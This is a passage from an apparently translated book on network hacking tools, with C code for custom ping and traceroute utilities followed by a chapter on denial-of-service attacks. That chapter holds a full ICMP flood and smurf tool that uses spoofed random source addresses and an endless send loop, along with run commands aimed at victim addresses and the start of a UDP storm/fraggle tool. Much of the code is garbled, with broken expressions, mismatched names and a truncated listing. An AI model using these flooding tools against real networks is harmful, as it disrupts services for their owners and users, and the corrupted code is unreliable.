timer.it.interval.tv_sec = 1;
timer.it.interval.tv_use = 0;
/* 启动实时定时器 */
setitimer(ITIMER_REAL, &timer, NULL);
```

```c
bzero(servaddr, sizeof(servaddr));
servaddr.sin_family = AF_INET;
servaddr.sin_addr = (struct in_addr *)hp->h_addr;
```

```c
fromlen = sizeof(from);

/* 启动无限循环接收数据包 */
while (1) {
    n = recvfrom(sd, recvbuf, sizeof(recvbuf), 0,
                 (struct sockaddr *) &from, &fromlen);
```

```c
if (n < 0) {
    if (errno == EINTR)
        continue;
    perror("recvfrom() failed");
    continue;
}
```

```c
/* 获取当前系统时间 */
gettimeofday(&tvval, NULL);

/* 调用函数解析接收到的数据包 */
/* 数据包并显示数据 */
output(recvbuf, n, &tv);
```

```c
return 0;
}
```

```c
/* 解析数据包并显示数据 */
```

## 第4章：Ping

```c
void output(char *ptr, int len, struct timeval *tvcrecv)
{
    int iplen;
    struct ip *ip;
    struct icmp *icmp;
    struct timeval *tvsend;
    double rtt;

    ip = (struct ip *) ptr; /* IP 头部起始 */
    iplen = ip->ip_hl << 2; /* IP 头部长度 */

    icmp = (struct icmp *) (ptr + iplen); /* ICMP 头部起始 */
    if ( (iplen - len) < 8 ) { /* ICMP 头部长度 */
        fprintf(stderr, "%d < 8\n", iplen);
    }

    if (icmp->icmp_type == ICMP_ECHOREPLY) {
        if (icmp->icmp_id == pid) {
            return; /* 回复是另一个 ping 的请求请求。 */
        }
    }

    tvsend = (struct timeval *) icmp->icmp_data;
    tv_sub(tvcrecv, tvsend);
    /* 往返时间 */
    rtt = tvcrecv->tv_sec * 1000.0 + tvcrecv->tv_usec / 1000.0;
    received++;

    tsum += rtt;
    if (rtt < tmin)
        tmin = rtt;
    if (rtt > tmax)
        tmax = rtt;

    printf("%d bytes from %s: icmp_seq = %u, ttl = %d, time = %.3f ms\n",
           iplen, inet_ntoa(from.sin_addr),
           icmp->icmp_seq, ip->ip_ttl, rtt);

}
```

```c
/*--------------------------------------*
/* 构造并发送 ICMP Echo请求数据包 */
/*--------------------------------------*
void pinger(void)
{
    int iplen;
    struct icmp *icmp;
    char sendbuf[BUFSIZE];

    icmp = (struct icmp *) tvcrecv / sendbuf;
```

# 第二部分：网络黑客工具

```c
/* 填充 ICMP 消息的所有字段 */
icmp->icmp_type = ICMP_ECHO;
icmp->icmp_id = 0;
icmp->icmp_seq = nsent++;
gettimeofday((struct timeval *) *)icmp->icmp_data, NULL);
```

```c
/* 长度为 8 字节 ICMP 头部和 56 字节数据 */
icmplen = 8 + 56;
/* ICMP 头部和数据的校验和 */
icmp->icmp_csum = 0;
icmp->icmp_csum = (unsigned short *) icmp, icmplen);
```

```c
if (sendto(sd, sendbuf, icmplen, 0,
	(struct sockaddr *)&servaddr, sizeof(servaddr)) < 0) {
		perror("sendto(sd) failed");
		exit(-1);
}
```

```
-------------------------------------------------------
/* 从一个时间结构中减去另一个 */
-------------------------------------------------------
void tv_sub(struct timeval *out, struct timeval *in)
{
	if (out->tv_usec < in->tv_usec) {
		out->tv_usec += 1000000;
		out->tv_sec--;
	}
	out->tv_usec -= in->tv_usec;
	out->tv_sec -= in->tv_sec;
}
```

```c
-------------------------------------------------------
/* SIGALRM 和 SIGINT 的处理器 */
-------------------------------------------------------
void catcher(int signum)
{
	if (signum == SIGALRM) {
		pinger();
	} else if (signum == SIGINT) {
		printf("--- %s ---\n", inet_ntoa(from.sin_addr));
		printf("%d packets transmitted\n", nsent);
		printf("%d received\n", received);
		if (nsent > received) {
			printf("%d%% loss.\n", (nsent - received) * 100 / nsent);
		}
		exit(1);
	}
}
```

```c
---------------------------------------
/* 计算校验和 */
---------------------------------------
unsigned short incksum(unsigned short *addr, int len)
{
	unsigned short result;
	unsigned int sum = 0;

	/* 所有的 2 字节 */
	while (len > 1) {
		sum += *addr++;
		len -= 2;
	}
	/* 如果还有剩余字节 */
	if (len > 0) {
		sum += *(unsigned char *)addr;
	}
	/* 处理进位 */
	while (sum >> 16) {
		sum = (sum & 0xffff) + (sum >> 16);
	}
	result = (unsigned short)~sum;
	return result;
}
```

## 第5章：Traceroute

像 ping 一样，*traceroute* 是任何系统中的标准工具。Windows 版本称为 tracert。traceroute 的功能是跟踪到达指定主机的路径。黑客们使用 *traceroute* 来探测网络拓扑。本质上，traceroute 的作者是 Van Jacobson，他在 1988 年为 Unix 编写了第一个版本。以下是启动该工具的执行示例：

```
traceroute to www.skyoff.ru (194.135.22.233), 30 hops, 38 packets
1 212.220.251 (212.220.251) 159.038 ms 159.891 ms 140.623 ms
2 212.220.251 (212.220.251) 148.593 ms 149.446 ms 151.226 ms
3 uracon-tcc-com.urti. (195.38.253) 160.017 ms 160.321 ms 141.133 ms
4 193.47.87.217 (193.47.87.217) 137.554 ms 140.341 ms 159.953 ms
5 eb6f4.eb2b4.fr.telecom.net (217.50.47.50) 150.263 ms 148.776 ms 140.048 ms
6 Tracer-gw.relcom.net (217.150.39.129) 218.521 ms 189.156 ms 189.614 ms
7 KAE-16.relcom.net (193.124.254.169) 191.221 ms 191.360 ms 179.513 ms
8 kie-spider-1.relcom.net (194.58.41.10) 179.634 ms 189.361 ms 189.632 ms
10 194.135.22.233 (194.135.22.233) 191.155 ms 189.331 ms 199.275 ms
```

目前，有两个版本的 *traceroute*：其中一个使用数据报发送 UDP，另一个使用原始套接字发送 ICMP。因此，第一个版本的 *traceroute* 适用于类 Unix 系统，而 Windows 拥有后者。

只有特权用户才能创建原始套接字；因此，标准的 Linux traceroute 工具具有带有 SUID 权限的 traceroute。

```bash
$ ls -la /usr/sbin/traceroute
-rwxr-xr-X 1 root 18256 Dec 2 2000 /usr/sbin/traceroute bit set so
```

在自定义的 traceroute 工具编译并构建后，它也会设置 SUID 位，以便普通用户可以使用它。

在程序内部，在创建原始套接字后会恢复到原始用户权限：`setuid(getuid());`。

由于一台机器上可能同时运行多个 traceroute 实例，因此需要判断某个 ICMP 消息是否是对其他 traceroute 发送的数据报的回复。这是通过 `bind()` 函数将套接字绑定到源端口来实现：取当前进程 PID 的低 16 位有效位，并将其最高位设置为 1。该端口号会自动输入到每个发送的数据报的 UDP Header中：

```c
sport = (getpid() & 0x00ff);
snabind.sin_family = AF_INET;
snabind.sin_port = htons(sport);
if (bind(sendfd, &sabind, sizeof(sabind)) != 0)
  perror("bind failed");
```

根据 RFC 792，程序会存储导致错误的原始数据报的 ICMP 头部和 64 位数据位（见图 5.1）；原始数据报的 UDP 头部存储在该字段中。当 traceroute 工具接收到 ICMP 消息时，它会分析该字段以确定源端口，从而确定源进程。



图 5.1. 处理 ICMP 错误时使用的头部、指针和长度

## 第二部分：网络黑客工具

主要的 traceroute 操作在一个双层嵌套的 for 循环中执行。外层循环生成从 1 到 `max_ttl`（最大值为 30）的 TTL 值。嵌套循环向目标发送三个包（UDP 数据报）：

```c
for (ttl = 1; ttl <= max_ttl && done == 0; ttl++) {
    for (probe = 0; probe < nprobes; probe++) {
```

使用 `setsockopt()` 函数配合 `IP_TTL` 参数设置 IP Header 中的新 TTL 值：

`setockopt(sendf, SOL_IP, IP_TTL, &ttl, sizeof(int));`

如果不存在 `IP_TTL` 参数，为了设置新的 TTL 值，将使用 `HDRINCL` 套接字参数构建自定义的 IP Header。每执行一次外层循环时，套接字地址结构都会被初始化为 0：


在嵌套循环中，将该结构的 IP 地址（`&salast.sin_addr`）与 `recvfrom()` 函数返回的结构的 IP 地址（`&sarecv.sin_addr`）进行比较。如果这些字段不同，则显示新结构中的 IP，之后将新地址复制到 `&salast.sin_addr` 结构中。这种方法使得每个 TTL 都能输出与第一个探测包对应的 IP 地址；或者在探测包传输过程中路由发生了变化，则显示新的 IP 地址。

在发送下一个探测包之前，会在嵌套循环中更改目标端口（加 1）：

```
snd.sin_port = htons(dport + seq);
```

这样做是为了将三个探测包中的每一个发送到不同的端口，以增加命中 0 的概率。用于接收包的 `recvfrom()` 函数在 `packet_ok()` 函数中调用，该函数还解析接收到的包的头部。`packet_ok()` 函数在超时时返回 -3，接收 ICMP "time exceeded" 消息时返回 -2，接收 ICMP "port unreachable" 消息时返回 -1。调用函数会输出星号（*）、中间路由器的地址以及目标节点的地址。如果没有包到达接收套接字（`recvfd`），自定义 traceroute 程序会等待 4 秒，然后返回 -3 并显示星号。这种等待是通过 `select()` 函数以及 `FD_ZERO`、`FD_SET` 和 `FD_ISSET` 宏实现的。你可以在相关文献中了解更多信息。自定义 ping 工具的代码可以在附带的光盘第二部分/第五章找到。

## 第 5 章：Traceroute

### Listing 5.1. 自定义 traceroute 工具 (udp.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <netinet/ip.h>
#include <netinet/icmp.h>
#include <netinet/udp.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <sys/time.h>
#include <unistd.h>

#define BUFSIZE 1500

/* UDP 数据结构 */
struct outdata {
    int outdata_seq;            /* 序列号 */
    int outdata_ttl;            /* TTL 值 */
    struct timeval outdata_tv; /* 发送时间 */
};

char recvbuf[BUFSIZE];
char sendbuf[BUFSIZE];

int sendfd; /* 发送 UDP 数据报的套接字描述符 */
int recvfd; /* 接收 ICMP 消息的原始套接字描述符 */
/* 发送包的 sockaddr() 结构 */
struct sockaddr_in asend;
/* 绑定源端口的 sockaddr() 结构 */
struct sockaddr_in sabind;
/* 接收包的 sockaddr() 结构 */
struct sockaddr_in sarecv;
/* 接收包的 sockaddr() 结构 */
struct sockaddr_in salast;
int sport;
int dport;

int ttl;
int probe;
int max_ttl = 30; /* TTL 最大值 */
int nprobes = 3; /* 探测次数 */
int done = 0; /* 完成标志 */
int datelen; /* UDP 数据长度 */
int seq; /* 序列号 */
double rtt; /* 往返时间 */

/* 函数原型 */
int packet_ok(int seq, struct timeval *trecv);
int main(int argc, char *argv[]);

/* main() 函数 */
int main(int argc, char *argv[])
{
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <hostname>\n", argv[0]);
        exit(1);
    }

    if ((hp = gethostbyname(argv[1])) == NULL) {
        fprintf(stderr, "gethostname failed");
        exit(-1);
    }

    if ((recvfd = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP)) < 0) {
        perror("socket");
        exit(-1);
    }

    /* 恢复初始权限 */
    setuid(getuid());

    sabind.sin_family = AF_INET;
    sabind.sin_port = htons(sport);
    sabind.sin_addr.s_addr = hp->h_addr[0];

    if (bind(sendfd, &sabind, sizeof(sabind)) != 0) {
        perror("bind failed");
        exit(-1);
    }

    for (ttl = 1; ttl <= max_ttl && done == 0; ttl++) {
        printf("%2d ", ttl);
        for (probe = 0; probe < nprobes; probe++) {
            outdata = (struct outdata*)sendbuf;
            outdata->outdata_seq = ++seq;
            outdata->outdata_ttl = ttl;
            gettimeday(&outdata->outdata_tv, NULL);

            setsockopt(sendfd, SOL_IP, IP_TTL, &ttl, sizeof(int));

            asend.sin_family = AF_INET;
            asend.sin_port = htons(dport + seq);
            asend.sin_addr.s_addr = hp->h_addr[0];

            if (sendto(sendfd, sendbuf, datelen, 0, (struct sockaddr *)&asend, sizeof(asend)) < 0) {
                perror("sendto() failed");
                exit (-1);
            }

            if ((code = packet_ok(seq, &trecv)) == -3) {
                printf(" *"); /* 超时；无回复。 */
            } else
                if (memcmp(&sarecv.sin_addr, &salast.sin_addr, sizeof(salast.sin_addr)) != 0) {
                    if (hp = gethostbyaddr(&sarecv.sin_addr, sizeof(sarecv.sin_addr)) != 0) {
                        printf(" %s (%s)\n", inet_ntoa(sarecv.sin_addr), hp->h_name);
                        printf(" %s\n", inet_ntoa(sarecv.sin_addr));
                        salast.sin_addr = sarecv.sin_addr;
                    }
                }

                tv_sub(&trecv, outdata->outdata_tv);
                rtt = trecv.tv_sec * 1000.0 + trecv.tv_usec / 1000.0;
                printf("%.3f ms\n", rtt);

                if (code == -1)
                    done = 1;
            }
        }
    }
    fflush(stdout);
    printf("\n");
    return 0;
}
```

## 第二部分：网络黑客工具

```c
packet_ok(int seq, struct timeval *tv)
{
    int n;
    int len;
    int hlen;
    int len2;
    struct ip *ip;
    struct ip *hip;
    struct icmp *icmp;
    struct udphdr *udp;
    fd_set fds;
    struct timeval wait;

    wait.tv_sec = 4; /* Waiting for a reply for 4 seconds, the longest */
    wait.tv_usec = 0;

    for (;;) {
        len = sizeof(sarecv);

        FD_ZERO(&fds);
        FD_SET(recvfd, &fds);

        if (select(recvfd, NULL, &recvbuf, 0, (struct sockaddr*)&sarecv, &len))
            = recvfrom(recvfd, recvbuf, sizeof(recvbuf), 0);
        else if (!FD_ISSET(recvfd, &fds))
            return (-3);
        else
            perror("recvfrom failed");
    }

    ip = (struct ip *) recvbuf;      /* Start of the IP header */
    hlen = ip->hlen << 2;            /* Length of the IP header */

    /* Start of the ICMP header */
    icmp = (struct icmp *) (recvbuf + hlen);
    /* Start of the saved IP header */
    hip = (struct ip *) (recvbuf + hlen + 8);
    /* Length of the saved IP header */
    len2 = ip->hlen << 2;
    /* Start of the saved UDP header */
    udp = (struct udphdr *) (recvbuf + hlen + 8 + len2);

    if (icmp->icmp_type == ICMP_TIMEXCEED &&
        icmp->icmp_code == ICMP_TIMEXCEED_INTRANS) {
        if (hip->ip_p == IPPROTO_UDP &&
            udp->source == htons(port) &&
            udp->dest == htons(dport + seq))
            return (-2);
    }

    if (icmp->icmp_type == ICMP_UNREACH &&
        if (hip->ip_p == IPPROTO_UDP &&
            udp->source == htons(sport) &&
            udp->dest == htons(dport + seq)) {
            if (icmp->icmp_code == ICMP_UNREACH_PORT)
                return (-1);
        }
    }
}
```

```c
/* Subtracting one timeval structure from another
*/
void tv_sub(struct timeval *out, struct timeval *in)
{
    if ((out->tv_usec -= in->tv_usec) < 0) {
        out->tv_sec--;
        out->tv_usec += 1000000;
    }
    out->tv_sec -= in->tv_sec;
}
```

## 5.2. 版本 2：使用原始套接字发送 ICMP 数据包

自定义 traceroute 程序第二个版本和第一个版本之间的唯一区别是，第二个版本发送的是 ICMP 回显请求而不是 UDP 数据报。与第一个版本一样，IP 数据包头中的 TTL 值每次探测都会顺序递增 1。中间路由器应该返回 ICMP“时间超时”消息，而目标主机应该返回回显响应消息。

```c
/* 创建一个用于发送和接收 ICMP 消息的套接字 */
snd = socket(PF_INET, SOCK_RAW, IPPROTO_ICMP);
```

此版本不使用网络端口，因为负责发送和接收消息的是 IP 系统而不是单个服务。特定 traceroute 实例的 ICMP 消息使用当前进程的 PID 来标识。

自定义 traceroute 程序的第二个版本的源代码可以在附带 CD-ROM 的 `\Part II\Chapter 5` 目录中找到。该文件名为 `traceroutemp.utility`。你可能会发现它与 ping 工具以及第一个版本的自定义 traceroute 程序共享许多功能，你对它的运行应该没有疑问。

## 第 6 章：DoS 攻击和 IP 伪造工具

拒绝服务（DoS）攻击旨在降低网络或计算机及其资源的运行性能，或阻止对它们的访问。DoS 攻击有四种主要类型：

- 耗尽网络资源的攻击
- 耗尽主机资源的攻击（占用内存、CPU、磁盘配额等）
- 利用软件漏洞导致主机崩溃或诱导其异常运行的攻击
- 修改系统配置或状态以阻止数据传输、断开连接或导致性能损失的攻击

此外，DoS 攻击可以分为本地或远程。本地攻击直接在被攻击主机上进行，而远程攻击通过网络进行。在本书中，我只考虑如何编写用于执行远程 DoS 攻击的工具，因为本地 DoS 攻击很少见且意义不大；然而，实施本地 DoS 攻击需要物理访问被攻击主机，而这不是远程 DoS 攻击的前提条件。

通常情况下，远程 DoS 攻击伴随着 IP 伪造，即伪造数据中的返回地址以隐藏发起攻击的主机地址。因此，在考虑 DoS 攻击程序时，我也考虑了 IP 伪造。

本章仅考虑上述列表的前三种 DoS 攻击。第四种类型在第 9 章讨论主动嗅探时会被隐含考虑。这是因为除了拦截流量外，主动嗅探会导致拒绝服务，使得无法传输数据或断开主机之间的连接。简单地拔掉墙上的插头使设备失效也可以放在 DoS 攻击类别中。

## 第二部分：网络黑客工具

之前列出的前两种 DoS 攻击被称为泛洪（flooding），因为它们通过向网络或主机发送大量请求来最终占用的全部或大部分资源。并不是所有 DoS 攻击都可以明确地归入某些类别。例如，UDP 风暴攻击可以归入特定的 DoS 攻击类型。

## 6.1. 耗尽资源的攻击

### 6.1.1. ICMP 泛洪和 Smurf 攻击

ICMP 泛洪通过发送大量的 ICMP 请求消息耗尽网络资源。实现这种 DoS 攻击的程序与第 4 章考虑的 ping 工具不同。主要区别在于它只发送回显请求；数据包之间不需要延迟；相反，必须尽可能快地发送。为了使 DoS 攻击更有效，可以增加包的大小。标准 ping 工具可以通过 `-f` 和 `-s` 参数执行 ICMP 泛洪。前者告诉工具尽可能发送回显请求，后者用于增加包的大小。例如，向 `victim.example.com` 发送连续的数据流：

```
ping -f -s victim.example.com
```

每个包 ping 工具发送回显请求。然而，标准 ping 工具无法更改发送者地址。这一缺陷在自定义 ping 中得到修复（见 6.1）。该工具也可以用于执行 smurf 攻击。在 smurf 攻击中，攻击者在本地网络发送广播 ICMP 请求，并将目标地址作为源者地址。这导致网络上的所有计算机向目标发送消息，泛洪其资源。要实现 IP 伪造，工具将填充 IP 头的所有字段；包括伪造地址（见 3.4）。为了构建自定义包，原始套接字必须是：

```
sd = socket(PF_INET, SOCK_RAW, IPPROTO_RAW);
```

使用了 `IPPROTO_RAW` 常量，也可以使用 `IPPROTO_ICMP`。使用这些常量并不，因为工具只需要发送 ICMP 包而不是接收它们（见 3.5）。对于原始套接字，使用 `setsockopt()` 函数指定 `IP_HDRINCL`。这样做是为了防止 TCP/IP 栈生成 IP 头。为了发送广播消息，再次调用 `setsockopt()` 函数设置 `SO_CAST` 参数，这对实现 smurf 攻击是必要的。输出包的缓冲区定义如下：


```c
char sendbuf[sizeof(struct ip) + sizeof(struct icmp) + 1400];
```

也就是说每个输出包的大小由 IP 和 ICMP 头的总长度加 1400 字节决定。IP 和 ICMP 头的定义分别取自 `netinet/ip.h` 和 `netinet/icmp.h` 头文件。我使用 1400 这个值的唯一原因是增加输出包的大小。缓冲区的这部分填充垃圾。

输出包的大小可以设置为 65535 字节（此限制由 16 位 IP 头长度字段设置，如图 3.5 所示）。但如果 MTU 小于输出包的大小，则需要分片算法来防止程序。例如，以太网 MTU 为 1500 字节。向以太网发送更长的包会导致发送函数错误，`perror()` 输出“message too long”。

ICMP 头长 8 字节，IP 头长 60 字节；因此，输出包的大小将为 1468 字节或更少。大多数网络允许这种大小的包通过。如果填充 IP 头的任务交给 IP 子系统（未设置 `IP_HDRINCL` 套接字选项），可以发送 65535 字节，因为系统会处理分片。所以，1400 字节是最优包大小。

接下来，定义指向 `sendbuf` 缓冲区分配的头部结构体的指针。我们可以这样做：

```c
struct ip *ip_hdr = (struct ip *) sendbuf;
struct icmp *icmp_hdr = (struct icmp *) (sendbuf + sizeof(struct ip));
```

然后，为了填充 IP 和 ICMP 头，对其进行填充：

```c
/* 填充 IP 头 */
ip_hdr->version = 4;
ip_hdr->len = 5;
ip_hdr->tos = 0;
ip_hdr->tot_len = htons(sizeof(struct ip) + sizeof(struct icmp) + 1400);
ip_hdr->id = 0;
ip_hdr->frag = 0;
ip_hdr->ttl = 255;
ip_hdr->protocol = IPPROTO_ICMP;
ip_hdr->check = 0;
ip_hdr->check = cksum((unsigned short *)ip_hdr, sizeof(struct ip));
ip_hdr->saddr = srcaddr;
ip_hdr->daddr = dstaddr;
```

> 实际上，发送分片包确实有一定的意义：重组这些包会消耗目标主机的资源，从而耗尽网络资源。然而，它们的意义并不大，尤其是与 SYN 泛洪等攻击相比。

```c
ip_hdr->daddr = ddtaddr;
```

```c
/* 填充 ICMP 头部 */
icmp_hdr->type = ICMP_ECHO;
icmp_hdr->code = 0;
icmp_hdr->id = i;
icmp_hdr->seq = i;
icmp_hdr->checksum = cksum((unsigned short *)icmp_hdr, sizeof(struct icmp) + 1400);
```

IP 头部中的协议（`ip_hdr->protocol`）被填充为 `IPPROTO_ICMP`（值为 1），这表示数据包正在通过 ICMP 发送。

两个报头中的校验和都通过同一个 `cksum()` 函数计算，只是为不同的报头传递了不同的值。（这个问题在第 3.6 节中讨论过）。根据 RFC，在计算校验和之前，必须将校验和置零。

如你所见，你可以随意地填充源（`ip_hdr->source`）和目的（`ip_hdr->daddr`）IP 字段。然后你可以将任何网络字节序的 IP 地址输入到命令行。源地址由用户提供，目的地址在第二个参数中。传递给工具的地址通过 `resolve()` 函数转换为网络字节序的 IP 地址。将单词“random”作为源主机，会使程序使用 `random()` 函数生成的值填充源地址字段。数据包将以无限循环的方式发送。

根据 `man 7 raw` 的说明，校验和（`ip_hdr->check`）、源地址（`ip_hdr->saddr`）、数据包标识符（`ip_hdr->id`）和总长度（`ip_hdr->tot_len`）字段并不一定填充；IP 子系统可以为你完成这些。在程序中，我填充了所有这些字段，以展示如何正确操作。

ICMP 头部中的校验和字段不需要填充。如果填充了，数据包将成功发送，但目的端会将其作为无效丢弃。对于 DoS 攻击，受害者是拒绝还是接受数据包通常很重要，后者更好，特别是当受害者对每个请求都发送回显时，会进一步拥塞通道。

要检查工具的操作，请在终端中启动 `tcpdump` 工具并观察发送的数据包。编译 `icmpflood` 工具并在 ICMP 泛洪模式下运行它，指定使用随机源 IP 地址：

```bash
# gcc icmpflood.c -o icmpflood
./icmpflood 192.168.1.1
```

产生的输出看起来所示：

```
06:20:52.842589 eth0 > 103.69.139.107 > 192.168.10.1: icmp: echo request
06:20:52.842589 eth0 > 198.35.132.50 > 192.168.10.1: icmp: echo request
06:20:52.842589 eth0 > 105.152.60.100 > 192.168.10.1: icmp: echo request
06:20:52.842589 eth0 > 115.72.101 > 192.168.10.1: icmp: echo request
06:20:52.842589 eth0 > 138.225.18 > 192.168.10.1: icmp: echo request
06:20:52.842589 eth0 > 148.11.101 > 192.168.10.1: icmp: echo request
06:20:52.842589 eth0 > 255.92.73.25 > 192.168.10.1: icmp: echo request
06:20:52.842589 eth0 > 74.148.232.42 > 192.168.10.1: icmp: echo request
06:20:52.842589 eth0 > 236.88.95.98 > 192.168.10.1: icmp: echo request
06:20:52.842589 eth0 > 41.31.141.35 > 192.168.10.1: icmp: echo request
```

来自主机 192.168.10.1 的回包，因为它将其发送到了随机地址。要执行 smurf 攻击，按如下方式运行工具：

```bash
# ./icmpflood 192.168.10.132 192.168.10.255
```

这里，从主机 192.168.10.132 发出了一个广播请求 192.168.10.255。作为响应，192.168.10.0 网络中的所有计算机都将向主机 192.168.10.132 发送回显回复。该工具源码如列表 6.1 所示。你也可以随附光盘的第二部分第 6 节中找到它。

## 列表 6.1 用于 ICMP 泛洪和 smurf 攻击的工具 (icmpflood.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <netinet/ip_icmp.h>
#include <netdb.h>
/* 将主机名转换为 IP 地址 */
unsigned long resolve(char *hostname)
{
    struct hostent *hp;
    hp = gethostbyname(hostname);
    if (hp == NULL) {
        perror("gethostbyname failed");
        exit(1);
    }
    return *(unsigned long *)hp->h_addr[0];
}
/* 计算校验和 */
unsigned short checksum(unsigned short *addr, int len)
{
    unsigned int sum = 0;
    unsigned short result;

    /* 相 2 字节字 */
    while (len > 1) {
        sum += *addr++;
        len -= 2;
    }

    /* 如果剩余一个字节，将其加入 sum */
    if (len == 1) {
        sum += *(unsigned char *)addr;
    }

    sum = (sum >> 16) + (sum & 0xFFFF);
    sum += (sum >> 16);
    result = (unsigned short)~sum;
    return result;
}
/* main(argc, argv[]) 函数 */
int main(int argc, char *argv[])
{
    int sd;
    const int on = 1;
    int rnd = 0;
    unsigned long srcaddr, dstaddr;
    struct sockaddr_in servaddr;
    char sendbuf[sizeof(struct iphdr) + sizeof(struct icmp) + 1400];
    struct iphdr *ip_hdr = (struct iphdr *)sendbuf;
    struct icmp *icmp_hdr = (struct icmp *)(sendbuf + sizeof(struct iphdr));

    if (argc != 3) {
        printf(stderr, "Usage: %s <source address | random> <destination address>\n", argv[0]);
        exit(1);
    }

    /* 创建原始 socket */
    if ((sd = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) < 0) {
        perror("socket() failed");
        exit(1);
    }

    /* 因为 IP 头部将在程序中填充，所以设置 IP_HDRINCL 选项 */
    if (setsockopt(sd, IPPROTO_IP, IP_HDRINCL, (char *)&on, sizeof(on)) < 0) {
        perror("setsockopt failed");
        exit(1);
    }

    /* 启用广播能力 */
    if (setsockopt(sd, SOCK_SOCKET, SO_BROADCAST, (char *)&on, sizeof(on)) < 0) {
        perror("setsockopt failed");
        exit(1);
    }

    /* 如果第一个参数是 "random"，随机选择源 IP 地址 */
    if (strcmp(argv[1], "random") == 0) {
        rnd = 1;
        srcaddr = random();
    } else {
        srcaddr = resolve(argv[1]);
    }

    /* 受害者的 IP 地址 */
    dstaddr = resolve(argv[2]);

    memset(&servaddr, 0, sizeof(servaddr));
    servaddr.sin_family = AF_INET;
    servaddr.sin_addr.s_addr = dstaddr;

    /* 填充 IP 头部 */
    ip_hdr->ihl = 5;
    ip_hdr->version = 4;
    ip_hdr->tos = 0;
    ip_hdr->tot_len = htons(sizeof(struct iphdr) + sizeof(struct icmp) + 1400);
    ip_hdr->id = 0;
    ip_hdr->frag_off = 0;
    ip_hdr->ttl = 255;
    ip_hdr->protocol = IPPROTO_ICMP;
    ip_hdr->check = 0;
    ip_hdr->check = cksum((unsigned short *)ip_hdr, sizeof(struct iphdr));
    ip_hdr->saddr = srcaddr;
    ip_hdr->dstaddr = dstaddr;

    /* 填充 ICMP 头部 */
    icmp_hdr->icmp_type = ICMP_ECHO;
    icmp_hdr->code = 0;
    icmp_hdr->id = 1;
    icmp_hdr->seq = 1;
    icmp_hdr->icmp_checksum = 0;
    icmp_hdr->icmp_checksum = cksum((unsigned short *)icmp_hdr, sizeof(struct icmp) + 1400);

    /* 无限循环发送数据包 */
    while (1) {
        if (sendto(sd, sendbuf, sizeof(sendbuf), 0, (struct sockaddr *)&servaddr, sizeof(servaddr)) < 0) {
            perror("sendto() failed");
            exit(1);
        }
        /* 生成新的随机源 IP 地址 */
        if (strcmp(argv[1], "random") == 0) {
            if (rnd) {
                ip_hdr->saddr = random();
                ip_hdr->check = cksum((unsigned short *)ip_hdr, sizeof(struct iphdr));
            }
        }
    }
    return 0;
}
```

### 6.1.2 UDP 泛洪与 Fraggle

UDP 泛洪攻击也被 Charg 或 Echo-Charg，因为这种攻击利用了这些服务。在响应 UDP 请求时，UDP chargen 服务（端口 19）会发送一个字符包，而 UDP echo 服务（端口 7）会将收到的包发回。因此，从端口 19 向端口 7 发送 UDP 数据包会引发无限循环。这种循环可以在单个主机上启动，也可以在两个远程主机之间启动，因为这些主机运行了 chargen 和 echo 服务。

列表 6.2 显示了执行 UDP 泛洪和 fraggle 攻击程序的源码。fraggle 攻击与 smurf 攻击类似，但它使用的是 UDP 数据包。攻击者从伪造地址向中间放大器的广播地址（通常是端口 7，echo）发送数据包。网络中所有旨在响应请求包的机器都会这样做，从而产生针对目标机器的巨大流量。

该程序比 `icmpflood.c` 程序（列表 6.1）简单，只需要填充 UDP 头部，而不是 ICMP 头部（见第 3.6 节），后者用于计算 UDP 头部中的校验和。根据 RFC 768 的要求，如果 `in_checksum()` 返回值为 0，则必须将其替换为 0xffff。

## 列表 6.2 用于 UDP 风暴和 fraggle 攻击的工具 (udpspstorm.c)


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <netdb.h>

/*********************************/
/* 将主机名转换为其 IP 地址 */
/*********************************/
unsigned long resolve(char *hostname)
{
    struct hostent *hp;
    if ((hp = gethostbyname(hostname)) == NULL) {
        herror("gethostbyname() failed");
        exit(-1);
    }
    return (unsigned long *)hp->h_addr_list[0];
}

/*****************************************/
/* 在 cksum(unsigned short *addr, int len) 中计算校验和 */
/*****************************************/
unsigned short shortcksum(unsigned short *addr, int len)
{
    unsigned short result;
    unsigned int sum = 0;
    /* 相加所有 2 字节字 */
    while (len > 1) {
        sum += *addr++;
        len -= 2;
    }
    /* 如果剩下一个字节，将其加到和中 */
    if (len == 1) {
        sum += (unsigned char *)addr;
    }
    sum = (sum >> 16) + (sum & 0xFFFF); /* 进位 */
    sum += (sum >> 16); /* 再次加上进位 */
    result = ~sum; /* 取反结果 */
    return result;
}
/************************************************/
```

# 第 82 页 第二部分：网络黑客工具

```c
/* main() 函数 */
/----------------******/
int main(int argc, char *argv[])
{
    int sd;
    const int on = 1;
    unsigned long daddr, sccadr, srcaddr;
    int dport, sport;
    struct sockaddr_in servaddr;

    /* 伪头部结构 */
    struct pseudohdr {
        unsigned int source_address;
        unsigned int dest_address;
        unsigned char place_holder;
        unsigned char protocol;
        unsigned short length;
    } pseudohdr;

    char sendbuf[sizeof(struct iphdr) + sizeof(struct udphdr)];
    struct iphdr *ip_hdr = (struct iphdr *)sendbuf;
    struct udphdr *udp_hdr = (struct udphdr *)(sendbuf + sizeof(struct iphdr));
    unsigned char *pseudo_packet = /* 指向伪包的指针 */ NULL; // 根据上下文不完整

    if (argc != 5) {
        fprintf(stderr, "用法: %s <源地址> <源端口> <目标地址> <目标端口>\n", argv[0]);
        exit(-1);
    }

    /* 创建原始套字 */
    if ((sd = socket(PF_INET, SOCK_RAW, IPPROTO_RAW)) < 0) {
        perror("socket() failed");
        exit(-1);
    }

    /* 因为 IP 头部将在程序中填充，
       设置 IP_HDRINCL 选项 */
    if (setsockopt(sd, IPPROTO_IP, IP_HDRINCL, (char *)&on, sizeof(on)) < 0) {
        perror("setsockopt() failed");
        exit(-1);
    }

    sccadr = resolve(argv[1]);
    /* 源 IP 地址 */
    sport = atoi(argv[2]);
    /* 源端口 */

    daddr = resolve(argv[3]); /* 受害者的 IP 地址 */
    dport = atoi(argv[4]);    /* 受害者的端口 */
```

